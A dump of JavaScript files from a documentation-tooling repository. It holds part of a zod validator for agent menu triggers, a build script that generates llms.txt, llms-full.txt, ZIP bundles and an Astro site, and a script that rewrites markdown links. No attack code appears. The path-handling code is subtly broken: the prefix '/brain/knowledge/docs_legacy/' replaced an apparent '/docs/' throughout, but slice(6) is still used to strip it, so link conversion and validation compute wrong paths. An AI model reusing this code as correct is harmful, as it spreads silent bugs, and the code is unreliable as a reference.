                route: createNonEmptyString('agent.menu[].triggers[].route').optional(),
                action: createNonEmptyString('agent.menu[].triggers[].action').optional(),
                data: z.string().optional(),
                type: z.enum(['exec', 'action', 'workflow']).optional(),
              })
              .strict()
              .refine((data) => data.trigger, { message: 'Must have trigger field' })
              .superRefine((value, ctx) => {
                // Must have either route or action (or both)
                if (!value.route && !value.action) {
                  ctx.addIssue({
                    code: 'custom',
                    message: 'agent.menu[].triggers[] must have either route or action (or both)',
                  });
                }
              }),
            // Format 2a: Object with array format (like bmad-builder.agent.yaml)
            z
              .object({})
              .passthrough()
              .refine(
                (value) => {
                  const keys = Object.keys(value);
                  if (keys.length !== 1) return false;
                  const triggerItems = value[keys[0]];
                  return Array.isArray(triggerItems);
                },
                { message: 'Must be object with single key pointing to array' },
              )
              .superRefine((value, ctx) => {
                const triggerName = Object.keys(value)[0];
                const triggerItems = value[triggerName];

                if (!Array.isArray(triggerItems)) {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must be an array of items`,
                  });
                  return;
                }

                // Check required fields in the array
                const hasInput = triggerItems.some((item) => 'input' in item);
                const hasRouteOrAction = triggerItems.some((item) => 'route' in item || 'action' in item);

                if (!hasInput) {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must have an input field`,
                  });
                }

                if (!hasRouteOrAction) {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must have a route or action field`,
                  });
                }
              }),
            // Format 2b: Object with direct fields (like analyst.agent.yaml)
            z
              .object({})
              .passthrough()
              .refine(
                (value) => {
                  const keys = Object.keys(value);
                  if (keys.length !== 1) return false;
                  const triggerFields = value[keys[0]];
                  return !Array.isArray(triggerFields) && typeof triggerFields === 'object';
                },
                { message: 'Must be object with single key pointing to object' },
              )
              .superRefine((value, ctx) => {
                const triggerName = Object.keys(value)[0];
                const triggerFields = value[triggerName];

                // Check required fields
                if (!triggerFields.input || typeof triggerFields.input !== 'string') {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must have an input field`,
                  });
                }

                if (!triggerFields.route && !triggerFields.action) {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must have a route or action field`,
                  });
                }
              }),
          ]),
        )
        .min(1, { message: 'agent.menu[].triggers must have at least one trigger' }),
      discussion: z.boolean().optional(),
    })
    .strict()
    .superRefine((value, ctx) => {
      // Check for duplicate trigger names
      const seenTriggers = new Set();
      for (const [index, triggerItem] of value.triggers.entries()) {
        let triggerName = null;

        // Extract trigger name from either format
        if (triggerItem.trigger) {
          // Format 1
          triggerName = triggerItem.trigger;
        } else {
          // Format 2
          const keys = Object.keys(triggerItem);
          if (keys.length === 1) {
            triggerName = keys[0];
          }
        }

        if (triggerName) {
          if (seenTriggers.has(triggerName)) {
            ctx.addIssue({
              code: 'custom',
              path: ['agent', 'menu', 'triggers', index],
              message: `Trigger name "${triggerName}" is duplicated`,
            });
          }
          seenTriggers.add(triggerName);

          // Validate trigger name format
          if (!TRIGGER_PATTERN.test(triggerName)) {
            ctx.addIssue({
              code: 'custom',
              path: ['agent', 'menu', 'triggers', index],
              message: `Trigger name "${triggerName}" must be kebab-case (lowercase words separated by hyphen)`,
            });
          }
        }
      }
    });

  return z.union([legacyMenuItemSchema, multiMenuItemSchema]);
}

/**
 * Derive the expected module slug from a file path residing under src/<module>/agents/.
 * @param {string} filePath Absolute or relative agent path.
 * @returns {string|null} Module slug if identifiable, otherwise null.
 */
function deriveModuleFromPath(filePath) {
  assert(filePath, 'validateAgentFile expects filePath to be provided');
  assert(typeof filePath === 'string', 'validateAgentFile expects filePath to be a string');
  assert(filePath.startsWith('src/'), 'validateAgentFile expects filePath to start with "src/"');

  const marker = 'src/';
  if (!filePath.startsWith(marker)) {
    return null;
  }

  const remainder = filePath.slice(marker.length);
  const slashIndex = remainder.indexOf('/');
  return slashIndex === -1 ? null : remainder.slice(0, slashIndex);
}

function normalizeModuleOption(moduleOption) {
  if (typeof moduleOption !== 'string') {
    return null;
  }

  const trimmed = moduleOption.trim();
  return trimmed.length > 0 ? trimmed : null;
}

// Primitive validators -----------------------------------------------------

function createNonEmptyString(label) {
  return z.string().refine((value) => value.trim().length > 0, {
    message: `${label} must be a non-empty string`,
  });
}
```

## File: `tools/build-docs.js`
```javascript
/**
 * TEA (Test Engineering Architect) Documentation Build Pipeline
 *
 * Consolidates docs from multiple sources, generates LLM-friendly files,
 * creates downloadable bundles, and builds the Astro+Starlight site.
 *
 * Build outputs:
 *   build/artifacts/     - With llms.txt, llms-full.txt, ZIPs
 *   build/site/          - Final Astro output (deployable)
 */

const { execSync } = require('node:child_process');
const fs = require('node:fs');
const path = require('node:path');
const archiver = require('archiver');

// =============================================================================
// Configuration
// =============================================================================

const PROJECT_ROOT = path.dirname(__dirname);
const BUILD_DIR = path.join(PROJECT_ROOT, 'build');

const SITE_URL = process.env.SITE_URL || 'https://test-architect.bmad-method.org';
const REPO_URL = 'https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise';

// DO NOT CHANGE THESE VALUES!
// llms-full.txt is consumed by AI agents as context. Most LLMs have ~200k token limits.
// 600k chars ≈ 150k tokens (safe margin). Exceeding this breaks AI agent functionality.
const LLM_MAX_CHARS = 600_000;
const LLM_WARN_CHARS = 500_000;

const LLM_EXCLUDE_PATTERNS = [
  'changelog',
  'downloads/',
  'reference/glossary/',
  // Note: Files/dirs starting with _ (like _STYLE_GUIDE.md, _archive/) are excluded in shouldExcludeFromLlm()
];

// =============================================================================
// Main Entry Point
/**
 * Orchestrates the full BMAD documentation build pipeline.
 *
 * Executes the high-level build steps in sequence: prints headers and paths, validates internal
 * documentation links, cleans the build directory, generates artifacts from the `brain/knowledge/docs_legacy/` folder,
 * builds the Astro site, and prints a final build summary.
 */

async function main() {
  console.log();
  printBanner('TEA Documentation Build Pipeline');
  console.log();
  console.log(`Project root: ${PROJECT_ROOT}`);
  console.log(`Build directory: ${BUILD_DIR}`);
  console.log();

  // Check for broken internal links before building
  checkDocLinks();

  cleanBuildDirectory();

  const docsDir = path.join(PROJECT_ROOT, 'docs');
  const artifactsDir = await generateArtifacts(docsDir);
  const siteDir = buildAstroSite();

  printBuildSummary(docsDir, artifactsDir, siteDir);
}

main().catch((error) => {
  console.error(error);
  process.exit(1);
});

// =============================================================================
// Pipeline Stages
/**
 * Generate LLM files and downloadable bundles for the documentation pipeline.
 *
 * Creates the build/artifacts directory, writes `llms.txt` and `llms-full.txt` (sourced from the provided docs directory),
 * and produces download ZIP bundles.
 *
 * @param {string} docsDir - Path to the source docs directory containing Markdown files.
 * @returns {string} Path to the created artifacts directory.
 */

async function generateArtifacts(docsDir) {
  printHeader('Generating LLM files and download bundles');

  const outputDir = path.join(BUILD_DIR, 'artifacts');
  fs.mkdirSync(outputDir, { recursive: true });

  // Generate LLM files reading from brain/knowledge/docs_legacy/, output to artifacts/
  generateLlmsTxt(outputDir);
  generateLlmsFullTxt(docsDir, outputDir);
  await generateDownloadBundles(outputDir);

  console.log();
  console.log(`  \u001B[32m✓\u001B[0m Artifact generation complete`);

  return outputDir;
}

/**
 * Builds the Astro + Starlight site and copies generated artifacts into the site output directory.
 *
 * @returns {string} The filesystem path to the built site directory (e.g., build/site).
 */
function buildAstroSite() {
  printHeader('Building Astro + Starlight site');

  const siteDir = path.join(BUILD_DIR, 'site');
  const artifactsDir = path.join(BUILD_DIR, 'artifacts');

  // Build Astro site (outputs to build/site via astro.config.mjs)
  runAstroBuild();
  copyArtifactsToSite(artifactsDir, siteDir);

  // No longer needed: Inject AI agents banner into every HTML page
  // injectAgentBanner(siteDir);

  console.log();
  console.log(`  \u001B[32m✓\u001B[0m Astro build complete`);

  return siteDir;
}

// =============================================================================
// LLM File Generation
/**
 * Create a concise llms.txt summary file containing project metadata, core links, and quick navigation entries for LLM consumption.
 *
 * Writes the file to `${outputDir}/llms.txt`.
 *
 * @param {string} outputDir - Destination directory where `llms.txt` will be written.
 */

function generateLlmsTxt(outputDir) {
  console.log('  → Generating llms.txt...');

  const content = [
    '# Test Architect (TEA) Documentation',
    '',
    '> Risk-based test strategy, automation guidance, and release gate decisions for quality-driven development.',
    '',
    `Documentation: ${SITE_URL}`,
    `Repository: ${REPO_URL}`,
    `Full docs: ${SITE_URL}/llms-full.txt`,
    '',
    '## Quick Start',
    '',
    `- **[TEA Lite Quickstart](${SITE_URL}/brain/knowledge/docs_legacy/tutorials/tea-lite-quickstart)** - Get started in 30 minutes`,
    `- **[Installation](${SITE_URL}/)** - Installation guide`,
    '',
    '## Core Workflows',
    '',
    `- **[Test Design (TD)](${SITE_URL}/brain/knowledge/docs_legacy/how-to/workflows/run-test-design)** - Risk-based test planning`,
    `- **[ATDD (AT)](${SITE_URL}/brain/knowledge/docs_legacy/how-to/workflows/run-atdd)** - Failing acceptance tests first`,
    `- **[Automate (TA)](${SITE_URL}/brain/knowledge/docs_legacy/how-to/workflows/run-automate)** - Expand automation coverage`,
    `- **[Trace (TR)](${SITE_URL}/brain/knowledge/docs_legacy/how-to/workflows/run-trace)** - Requirements traceability`,
    '',
    '## Additional Workflows',
    '',
    `- **[Framework (TF)](${SITE_URL}/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework)** - Scaffold test framework`,
    `- **[CI (CI)](${SITE_URL}/brain/knowledge/docs_legacy/how-to/workflows/setup-ci)** - CI/CD quality pipeline`,
    `- **[Test Review (RV)](${SITE_URL}/brain/knowledge/docs_legacy/how-to/workflows/run-test-review)** - Quality audit`,
    `- **[NFR Assess (NR)](${SITE_URL}/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess)** - Non-functional requirements`,
    '',
    '---',
    '',
    '## Quick Links',
    '',
    `- [Full Documentation (llms-full.txt)](${SITE_URL}/llms-full.txt) - Complete docs for AI context`,
    `- [Source Bundle](${SITE_URL}/downloads/tea-sources.zip) - Complete source code`,
    `- [Prompts Bundle](${SITE_URL}/downloads/tea-prompts.zip) - Agent prompts and workflows`,
    '',
  ].join('\n');

  const outputPath = path.join(outputDir, 'llms.txt');
  fs.writeFileSync(outputPath, content, 'utf-8');
  console.log(`    Generated llms.txt (${content.length.toLocaleString()} chars)`);
}

/**
 * Builds a consolidated llms-full.txt containing all Markdown files under docsDir wrapped in <document path="..."> tags for LLM consumption.
 *
 * Writes the generated file to outputDir/llms-full.txt. Files matching LLM_EXCLUDE_PATTERNS are skipped; read errors for individual files are logged. The combined content is validated against configured size thresholds (will exit on overflow and warn if near limit).
 * @param {string} docsDir - Root directory containing source Markdown files; paths in the output are relative to this directory.
 * @param {string} outputDir - Directory where llms-full.txt will be written.
 */
function generateLlmsFullTxt(docsDir, outputDir) {
  console.log('  → Generating llms-full.txt...');

  const date = new Date().toISOString().split('T')[0];
  const files = getAllMarkdownFiles(docsDir);

  const output = [
    '# Test Architect (TEA) Documentation (Full)',
    '',
    '> Complete documentation for AI consumption',
    `> Generated: ${date}`,
    `> Repository: ${REPO_URL}`,
    '',
  ];

  let fileCount = 0;
  let skippedCount = 0;

  for (const mdPath of files) {
    if (shouldExcludeFromLlm(mdPath)) {
      skippedCount++;
      continue;
    }

    const fullPath = path.join(docsDir, mdPath);
    try {
      const content = readMarkdownContent(fullPath);
      output.push(`<document path="${mdPath}">`, content, '</document>', '');
      fileCount++;
    } catch (error) {
      console.error(`    Warning: Could not read ${mdPath}: ${error.message}`);
    }
  }

  const result = output.join('\n');
  validateLlmSize(result);

  const outputPath = path.join(outputDir, 'llms-full.txt');
  fs.writeFileSync(outputPath, result, 'utf-8');

  const tokenEstimate = Math.floor(result.length / 4).toLocaleString();
  console.log(
    `    Processed ${fileCount} files (skipped ${skippedCount}), ${result.length.toLocaleString()} chars (~${tokenEstimate} tokens)`,
  );
}

/**
 * Collects all Markdown (.md) files under a directory and returns their paths relative to a base directory.
 * @param {string} dir - Directory to search for Markdown files.
 * @param {string} [baseDir=dir] - Base directory used to compute returned relative paths.
 * @returns {string[]} An array of file paths (relative to `baseDir`) for every `.md` file found under `dir`.
 */
function getAllMarkdownFiles(dir, baseDir = dir) {
  const files = [];

  for (const entry of fs.readdirSync(dir, { withFileTypes: true })) {
    const fullPath = path.join(dir, entry.name);

    if (entry.isDirectory()) {
      files.push(...getAllMarkdownFiles(fullPath, baseDir));
    } else if (entry.name.endsWith('.md')) {
      // Return relative path from baseDir
      const relativePath = path.relative(baseDir, fullPath);
      files.push(relativePath);
    }
  }

  return files;
}

/**
 * Determine whether a file path matches any configured LLM exclusion pattern.
 * Also excludes any files or directories starting with underscore.
 * @param {string} filePath - The file path to test.
 * @returns {boolean} `true` if excluded, `false` otherwise.
 */
function shouldExcludeFromLlm(filePath) {
  // Exclude if ANY path component starts with underscore
  // (e.g., _STYLE_GUIDE.md, _archive/file.md, dir/_STYLE_GUIDE.md)
  const pathParts = filePath.split(path.sep);
  if (pathParts.some((part) => part.startsWith('_'))) return true;

  // Check configured patterns
  return LLM_EXCLUDE_PATTERNS.some((pattern) => filePath.includes(pattern));
}

function readMarkdownContent(filePath) {
  let content = fs.readFileSync(filePath, 'utf-8');

  if (content.startsWith('---')) {
    const end = content.indexOf('---', 3);
    if (end !== -1) {
      content = content.slice(end + 3).trim();
    }
  }

  return content;
}

function validateLlmSize(content) {
  const charCount = content.length;

  if (charCount > LLM_MAX_CHARS) {
    console.error(`    ERROR: Exceeds ${LLM_MAX_CHARS.toLocaleString()} char limit`);
    process.exit(1);
  } else if (charCount > LLM_WARN_CHARS) {
    console.warn(`    \u001B[33mWARNING: Approaching ${LLM_WARN_CHARS.toLocaleString()} char limit\u001B[0m`);
  }
}

// =============================================================================
// Download Bundle Generation
// =============================================================================

async function generateDownloadBundles(outputDir) {
  console.log('  → Generating download bundles...');

  const downloadsDir = path.join(outputDir, 'downloads');
  fs.mkdirSync(downloadsDir, { recursive: true });

  await generateSourcesBundle(downloadsDir);
  await generatePromptsBundle(downloadsDir);
}

async function generateSourcesBundle(downloadsDir) {
  const srcDir = path.join(PROJECT_ROOT, 'src');
  if (!fs.existsSync(srcDir)) return;

  const zipPath = path.join(downloadsDir, 'tea-sources.zip');
  await createZipArchive(srcDir, zipPath, ['__pycache__', '.pyc', '.DS_Store', 'node_modules']);

  const size = (fs.statSync(zipPath).size / 1024 / 1024).toFixed(1);
  console.log(`    tea-sources.zip (${size}M)`);
}

/**
 * Create a zip archive of the project's prompts (agents and workflows) and place it in the downloads directory.
 *
 * Creates tea-prompts.zip from src/ (agents, workflows, testarch), excluding common unwanted paths, writes it to the provided downloads directory, and logs the resulting file size. If src directory does not exist, the function returns without creating a bundle.
 * @param {string} downloadsDir - Destination directory where tea-prompts.zip will be written.
 */
async function generatePromptsBundle(downloadsDir) {
  const srcDir = path.join(PROJECT_ROOT, 'src');
  if (!fs.existsSync(srcDir)) return;

  const zipPath = path.join(downloadsDir, 'tea-prompts.zip');
  await createZipArchive(srcDir, zipPath, ['docs', '.DS_Store', '__pycache__', 'node_modules']);

  const size = Math.floor(fs.statSync(zipPath).size / 1024);
  console.log(`    tea-prompts.zip (${size}K)`);
}

// =============================================================================
// Astro Build
/**
 * Builds the Astro site to build/site (configured in astro.config.mjs).
 */
function runAstroBuild() {
  console.log('  → Running astro build...');
  execSync('npx astro build --root website', {
    cwd: PROJECT_ROOT,
    stdio: 'inherit',
    env: {
      ...process.env,
    },
  });
}

/**
 * Copy generated artifact files into the built site directory.
 *
 * Copies llms.txt and llms-full.txt from the artifacts directory into the site directory.
 * If a downloads subdirectory exists under artifacts, copies it into siteDir/downloads.
 *
 * @param {string} artifactsDir - Path to the build artifacts directory containing generated files.
 * @param {string} siteDir - Path to the target site directory where artifacts should be placed.
 */
function copyArtifactsToSite(artifactsDir, siteDir) {
  console.log('  → Copying artifacts to site...');

  fs.copyFileSync(path.join(artifactsDir, 'llms.txt'), path.join(siteDir, 'llms.txt'));
  fs.copyFileSync(path.join(artifactsDir, 'llms-full.txt'), path.join(siteDir, 'llms-full.txt'));

  const downloadsDir = path.join(artifactsDir, 'downloads');
  if (fs.existsSync(downloadsDir)) {
    copyDirectory(downloadsDir, path.join(siteDir, 'downloads'));
  }
}

// =============================================================================
// Build Summary
/**
 * Prints a concise end-of-build summary and displays a sample listing of the final site directory.
 *
 * @param {string} docsDir - Path to the source documentation directory used for the build.
 * @param {string} artifactsDir - Path to the directory containing generated artifacts (e.g., llms.txt, downloads).
 * @param {string} siteDir - Path to the final built site directory whose contents will be listed.
 */

function printBuildSummary(docsDir, artifactsDir, siteDir) {
  console.log();
  printBanner('Build Complete!');
  console.log();
  console.log('Build artifacts:');
  console.log(`  Source docs:     ${docsDir}`);
  console.log(`  Generated files: ${artifactsDir}`);
  console.log(`  Final site:      ${siteDir}`);
  console.log();
  console.log(`Deployable output: ${siteDir}/`);
  console.log();

  listDirectoryContents(siteDir);
}

function listDirectoryContents(dir) {
  const entries = fs.readdirSync(dir).slice(0, 15);

  for (const entry of entries) {
    const fullPath = path.join(dir, entry);
    const stat = fs.statSync(fullPath);

    if (stat.isFile()) {
      const sizeStr = formatFileSize(stat.size);
      console.log(`  ${entry.padEnd(40)} ${sizeStr.padStart(8)}`);
    } else {
      console.log(`  ${entry}/`);
    }
  }
}

/**
 * Format a byte count into a compact human-readable string using B, K, or M units.
 * @param {number} bytes - The number of bytes to format.
 * @returns {string} The formatted size: bytes as `N B` (e.g. `512B`), kilobytes truncated to an integer with `K` (e.g. `2K`), or megabytes with one decimal and `M` (e.g. `1.2M`).
 */
function formatFileSize(bytes) {
  if (bytes > 1024 * 1024) {
    return `${(bytes / 1024 / 1024).toFixed(1)}M`;
  } else if (bytes > 1024) {
    return `${Math.floor(bytes / 1024)}K`;
  }
  return `${bytes}B`;
}

// =============================================================================
// Post-build Injection
/**
 * Recursively collects all files with the given extension under a directory.
 *
 * @param {string} dir - Root directory to search.
 * @param {string} ext - File extension to match (include the leading dot, e.g. ".md").
 * @returns {string[]} An array of file paths for files ending with `ext` found under `dir`.
 */

function getAllFilesByExtension(dir, ext) {
  const result = [];
  const entries = fs.readdirSync(dir, { withFileTypes: true });

  for (const entry of entries) {
    const fullPath = path.join(dir, entry.name);
    if (entry.isDirectory()) {
      result.push(...getAllFilesByExtension(fullPath, ext));
    } else if (entry.name.endsWith(ext)) {
      result.push(fullPath);
    }
  }

  return result;
}

// =============================================================================
// File System Utilities
/**
 * Remove any existing build output and recreate the build directory.
 *
 * Ensures the configured BUILD_DIR is empty by deleting it if present and then creating a fresh directory.
 */

function cleanBuildDirectory() {
  console.log('Cleaning previous build...');

  if (fs.existsSync(BUILD_DIR)) {
    fs.rmSync(BUILD_DIR, { recursive: true });
  }
  fs.mkdirSync(BUILD_DIR, { recursive: true });
}

/**
 * Recursively copies all files and subdirectories from one directory to another, creating the destination if needed.
 *
 * @param {string} src - Path to the source directory to copy from.
 * @param {string} dest - Path to the destination directory to copy to.
 * @param {string[]} [exclude=[]] - List of file or directory names (not paths) to skip while copying.
 * @returns {boolean} `true` if the source existed and copying proceeded, `false` if the source did not exist.
 */
function copyDirectory(src, dest, exclude = []) {
  if (!fs.existsSync(src)) return false;
  fs.mkdirSync(dest, { recursive: true });

  for (const entry of fs.readdirSync(src, { withFileTypes: true })) {
    if (exclude.includes(entry.name)) continue;

    const srcPath = path.join(src, entry.name);
    const destPath = path.join(dest, entry.name);

    if (entry.isDirectory()) {
      copyDirectory(srcPath, destPath, exclude);
    } else {
      fs.copyFileSync(srcPath, destPath);
    }
  }
  return true;
}

/**
 * Create a ZIP archive of a directory, optionally excluding entries that match given substrings.
 * @param {string} sourceDir - Path to the source directory to archive.
 * @param {string} outputPath - Path to write the resulting ZIP file.
 * @param {string[]} [exclude=[]] - Array of substrings; any entry whose path includes one of these substrings will be omitted.
 * @returns {Promise<void>} Resolves when the archive has been fully written and closed, rejects on error.
 */
function createZipArchive(sourceDir, outputPath, exclude = []) {
  return new Promise((resolve, reject) => {
    const output = fs.createWriteStream(outputPath);
    const archive = archiver('zip', { zlib: { level: 9 } });

    output.on('close', resolve);
    archive.on('error', reject);

    archive.pipe(output);

    const baseName = path.basename(sourceDir);
    archive.directory(sourceDir, baseName, (entry) => {
      for (const pattern of exclude) {
        if (entry.name.includes(pattern)) return false;
      }
      return entry;
    });

    archive.finalize();
  });
}

// =============================================================================
// Console Output Formatting
// =============================================================================

function printHeader(title) {
  console.log();
  console.log('┌' + '─'.repeat(62) + '┐');
  console.log(`│ ${title.padEnd(60)} │`);
  console.log('└' + '─'.repeat(62) + '┘');
}

/**
 * Prints a centered decorative ASCII banner to the console using the provided title.
 * @param {string} title - Text to display centered inside the banner. */
function printBanner(title) {
  console.log('╔' + '═'.repeat(62) + '╗');
  console.log(`║${title.padStart(31 + title.length / 2).padEnd(62)}║`);
  console.log('╚' + '═'.repeat(62) + '╝');
}

// =============================================================================
// Link Checking
/**
 * Verify internal documentation links by running the link-checking script.
 *
 * Executes the Node script tools/check-doc-links.js from the project root and
 * exits the process with code 1 if the check fails.
 */

function checkDocLinks() {
  printHeader('Checking documentation links');

  try {
    execSync('node tools/validate-doc-links.js', {
      cwd: PROJECT_ROOT,
      stdio: 'inherit',
    });
  } catch {
    console.error('\n  \u001B[31m✗\u001B[0m Link check failed - fix broken links before building\n');
    process.exit(1);
  }
}
```

## File: `tools/fix-doc-links.js`
```javascript
/**
 * Fix Documentation Links
 *
 * Converts relative markdown links to repo-relative paths with .md extension.
 * This ensures links work both in GitHub and on the Astro/Starlight site
 * (the rehype plugin transforms /brain/knowledge/docs_legacy/path/file.md → /path/file/ at build time).
 *
 * - ./file.md → /brain/knowledge/docs_legacy/current/path/file.md
 * - ../other/file.md → /brain/knowledge/docs_legacy/resolved/path/file.md
 * - /path/file/ → /brain/knowledge/docs_legacy/path/file.md (or /brain/knowledge/docs_legacy/path/file/index.md if it's a directory)
 *
 * Usage:
 *   node tools/fix-doc-links.js           # Dry run (shows what would change)
 *   node tools/fix-doc-links.js --write   # Actually write changes
 */

const fs = require('node:fs');
const path = require('node:path');

const DOCS_ROOT = path.resolve(__dirname, '../docs');
const DRY_RUN = !process.argv.includes('--write');

// Regex to match markdown links:
// - [text](../../../vault/archives/archive_legacy/node/doc/api/path.md) or [text](../../../vault/archives/archive_legacy/node/doc/api/path.md#anchor) - existing .md links
// - [text](/path/to/page/) or [text](/path/to/page/#anchor) - site-relative links to convert
const MARKDOWN_LINK_REGEX = /\[([^\]]*)\]\(([^)]+(?:\.md|\/))(?:#[^)]*)?(?:\?[^)]*)?\)/g;
// Simpler approach: match all markdown links and filter in the handler
const ALL_MARKDOWN_LINKS_REGEX = /\[([^\]]*)\]\(([^)]+)\)/g;

/**
 * Get all markdown files in docs directory, excluding _* directories/files
 */
function getMarkdownFiles(dir) {
  const files = [];

  function walk(currentDir) {
    const entries = fs.readdirSync(currentDir, { withFileTypes: true });

    for (const entry of entries) {
      const fullPath = path.join(currentDir, entry.name);

      // Skip underscore-prefixed entries
      if (entry.name.startsWith('_')) {
        continue;
      }

      if (entry.isDirectory()) {
        walk(fullPath);
      } else if (entry.isFile() && entry.name.endsWith('.md')) {
        files.push(fullPath);
      }
    }
  }

  walk(dir);
  return files;
}

/**
 * Convert a markdown link href to repo-relative path with .md extension
 *
 * @param {string} href - The original href (e.g., "./file.md", "/path/to/page/", "/path/to/page/#anchor")
 * @param {string} currentFilePath - Absolute path to the file containing this link
 * @returns {string|null} - Repo-relative path (e.g., "/brain/knowledge/docs_legacy/path/to/file.md"), or null if shouldn't be converted
 */
function convertToRepoRelative(href, currentFilePath) {
  // Skip external links
  if (href.includes('://') || href.startsWith('mailto:') || href.startsWith('tel:')) {
    return null;
  }

  // Skip anchor-only links
  if (href.startsWith('#')) {
    return null;
  }

  // Extract anchor and query string if present
  let anchor = '';
  let query = '';
  let pathPortion = href;

  const hashIndex = href.indexOf('#');
  const queryIndex = href.indexOf('?');

  if (hashIndex !== -1 || queryIndex !== -1) {
    const firstDelimiter = Math.min(hashIndex === -1 ? Infinity : hashIndex, queryIndex === -1 ? Infinity : queryIndex);
    pathPortion = href.slice(0, Math.max(0, firstDelimiter));

    const suffix = href.slice(Math.max(0, firstDelimiter));
    const anchorInSuffix = suffix.indexOf('#');

    if (suffix.startsWith('?')) {
      if (anchorInSuffix === -1) {
        query = suffix;
      } else {
        query = suffix.slice(0, Math.max(0, anchorInSuffix));
        anchor = suffix.slice(Math.max(0, anchorInSuffix));
      }
    } else {
      anchor = suffix;
    }
  }

  // Skip non-documentation links (images, external assets, etc.)
  const ext = path.extname(pathPortion).toLowerCase();
  if (
    ext &&
    ext !== '.md' &&
    !['.md'].includes(ext) && // Has an extension that's not .md - skip unless it's a trailing slash path
    !pathPortion.endsWith('/')
  ) {
    return null;
  }

  // Check if original path ends with / (directory reference) BEFORE path.join normalizes it
  const isDirectoryPath = pathPortion.endsWith('/');

  let absolutePath;

  if (pathPortion.startsWith('/brain/knowledge/docs_legacy/')) {
    // Already repo-relative with /brain/knowledge/docs_legacy/ prefix
    absolutePath = path.join(path.dirname(DOCS_ROOT), pathPortion);
  } else if (pathPortion.startsWith('/')) {
    // Site-relative (e.g., /tutorials/getting-started/) - resolve from docs root
    absolutePath = path.join(DOCS_ROOT, pathPortion);
  } else {
    // Relative path (./, ../, or bare filename) - resolve from current file's directory
    const currentDir = path.dirname(currentFilePath);
    absolutePath = path.resolve(currentDir, pathPortion);
  }

  // Convert to repo-relative path (with /brain/knowledge/docs_legacy/ prefix)
  let repoRelative = '/brain/knowledge/docs_legacy/' + path.relative(DOCS_ROOT, absolutePath);

  // Normalize path separators for Windows
  repoRelative = repoRelative.split(path.sep).join('/');

  // If original path was a directory reference (ended with /), check for index.md or file.md
  if (isDirectoryPath) {
    const relativeDir = repoRelative.slice(6); // Remove '/brain/knowledge/docs_legacy/'

    // Handle root path case (relativeDir is empty or just '.')
    const normalizedDir = relativeDir === '' || relativeDir === '.' ? '' : relativeDir;
    const indexPath = path.join(DOCS_ROOT, normalizedDir, 'index.md');
    const filePath = normalizedDir ? path.join(DOCS_ROOT, normalizedDir + '.md') : null;

    if (fs.existsSync(indexPath)) {
      // Avoid double slash when repoRelative is '/brain/knowledge/docs_legacy/' (root case)
      repoRelative = repoRelative.endsWith('/') ? repoRelative + 'index.md' : repoRelative + '/index.md';
    } else if (filePath && fs.existsSync(filePath)) {
      repoRelative = repoRelative + '.md';
    } else {
      // Neither exists - default to index.md and let validation catch it
      repoRelative = repoRelative.endsWith('/') ? repoRelative + 'index.md' : repoRelative + '/index.md';
    }
  } else if (!repoRelative.endsWith('.md')) {
    // Path doesn't end with .md - add .md
    repoRelative = repoRelative + '.md';
  }

  return repoRelative + query + anchor;
}

/**
 * Process a single markdown file, skipping links inside fenced code blocks
 *
 * @param {string} filePath - Absolute path to the file
 * @returns {Object} - { changed: boolean, original: string, updated: string, changes: Array }
 */
function processFile(filePath) {
  const original = fs.readFileSync(filePath, 'utf-8');
  const changes = [];

  // Extract fenced code blocks and replace with placeholders
  const codeBlocks = [];
  const CODE_PLACEHOLDER = '\u0000CODE_BLOCK_';

  let contentWithPlaceholders = original.replaceAll(/```[\s\S]*?```/g, (match) => {
    const index = codeBlocks.length;
    codeBlocks.push(match);
    return `${CODE_PLACEHOLDER}${index}\u0000`;
  });

  // Process links only in non-code-block content
  contentWithPlaceholders = contentWithPlaceholders.replaceAll(ALL_MARKDOWN_LINKS_REGEX, (match, linkText, href) => {
    const newHref = convertToRepoRelative(href, filePath);

    // Skip if conversion returned null (external link, anchor, etc.)
    if (newHref === null) {
      return match;
    }

    // Only record as change if actually different
    if (newHref !== href) {
      changes.push({ from: href, to: newHref });
      return `[${linkText}](${newHref})`;
    }

    return match;
  });

  // Restore code blocks
  const updated = contentWithPlaceholders.replaceAll(
    new RegExp(`${CODE_PLACEHOLDER}(\\d+)\u0000`, 'g'),
    (match, index) => codeBlocks[parseInt(index, 10)],
  );

  return {
    changed: changes.length > 0,
    original,
    updated,
    changes,
  };
}

/**
 * Validate that a repo-relative link points to an existing file
 */
function validateLink(repoRelativePath) {
  // Strip anchor/query
  const checkPath = repoRelativePath.split('#')[0].split('?')[0];

  // Remove /brain/knowledge/docs_legacy/ prefix to get path relative to DOCS_ROOT
  const relativePath = checkPath.startsWith('/brain/knowledge/docs_legacy/') ? checkPath.slice(6) : checkPath.slice(1);

  return fs.existsSync(path.join(DOCS_ROOT, relativePath));
}

// Main execution
console.log(`\nScanning docs in: ${DOCS_ROOT}`);
console.log(`Mode: ${DRY_RUN ? 'DRY RUN (use --write to apply changes)' : 'WRITE MODE'}\n`);

const files = getMarkdownFiles(DOCS_ROOT);
console.log(`Found ${files.length} markdown files (excluding _* paths)\n`);

let totalChanges = 0;
let filesChanged = 0;
const brokenLinks = [];

for (const filePath of files) {
  const relativePath = path.relative(DOCS_ROOT, filePath);
  const result = processFile(filePath);

  if (result.changed) {
    filesChanged++;
    totalChanges += result.changes.length;

    console.log(`\n${relativePath}`);
    for (const change of result.changes) {
      const isValid = validateLink(change.to);
      const status = isValid ? '  ' : '! ';

      console.log(`${status}  ${change.from}`);
      console.log(`    -> ${change.to}`);

      if (!isValid) {
        brokenLinks.push({
          file: relativePath,
          link: change.to,
          original: change.from,
        });
      }
    }

    if (!DRY_RUN) {
      fs.writeFileSync(filePath, result.updated, 'utf-8');
    }
  }
}

console.log(`\n${'─'.repeat(60)}`);
console.log(`\nSummary:`);
console.log(`   Files scanned: ${files.length}`);
console.log(`   Files with changes: ${filesChanged}`);
console.log(`   Total link updates: ${totalChanges}`);

if (brokenLinks.length > 0) {
  console.log(`\n!  Potential broken links (${brokenLinks.length}):`);
  for (const bl of brokenLinks) {
    console.log(`   ${bl.file}: ${bl.link}`);
  }
}

